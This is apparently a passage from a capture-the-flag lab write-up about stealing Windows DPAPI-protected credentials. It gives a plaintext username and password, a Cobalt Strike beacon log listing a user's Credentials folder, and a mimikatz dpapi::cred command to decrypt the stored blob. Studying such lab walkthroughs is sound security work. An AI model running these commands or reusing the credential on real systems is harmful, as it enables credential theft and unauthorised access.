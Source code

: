 steph.cooper : ChefSteph2025! its also work at **winrm**

## DPAPI

### 🔐 What is DPAPI?

**DPAPI (Data Protection API)**
 is a Windows feature used to securely store sensitive data like 
passwords, private keys, and credentials. It handles encryption and 
decryption without needing the developer to manage keys manually.

### ⚙️ How does DPAPI work?

- **Encryption**: Uses the user’s login credentials or system secrets to encrypt data.
- **Decryption**: Only the same user or system context can decrypt the data.
- **Security**: Tied to Windows accounts — only the original user (or admin) can access their encrypted data.

```bash
[05/17 22:24:53] beacon> dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
[05/17 22:24:53] [+] Running dir (T1083)
[05/17 22:24:53] [*] Running dir (T1083)
[05/17 22:24:55] [+] host called home, sent: 5955 bytes
[05/17 22:24:55] [+] received output:
Contents of C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\*:
	03/08/2025 07:53           <dir> .
	03/08/2025 07:40           <dir> ..
	03/08/2025 07:54             414 C8D69EBE9A43E9DEBF6B5FBD48B521B9
	                             414 Total File Size for 1 File(s)
	                                                      2 Dir(s)
```

 Noice lets grab guidMasterKey important part is guidMasterKey here

Coomands to execute

```bash
mimikatz dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

![alt text](../assets/images/puppy10.png)
